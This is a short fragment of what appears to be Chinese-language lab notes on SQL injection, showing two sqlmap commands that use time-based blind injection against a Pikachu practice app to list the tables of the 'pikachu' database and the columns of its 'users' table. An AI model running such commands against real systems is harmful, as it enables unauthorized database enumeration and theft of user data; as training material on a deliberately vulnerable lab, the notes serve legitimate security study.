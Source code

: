 ![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675304060909-2b71b6eb-2e2e-43dc-a2d2-ff5629d7f541.png)

```sql
sqlmap -u "http://d19.s.iproute.cn/vul/sqli/sqli_blind_t.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -p name -v 1 --technique=T --batch --tables -D pikachu
```

-D 指定数据库
--tables 获取表

![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675304593099-c7456dc9-048a-4142-8d16-193d9c03da41.png)

```sql
sqlmap -u "http://d19.s.iproute.cn/vul/sqli/sqli_blind_t.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -p name -v 1 --technique=T --batch -D pikachu -T users --columns
```
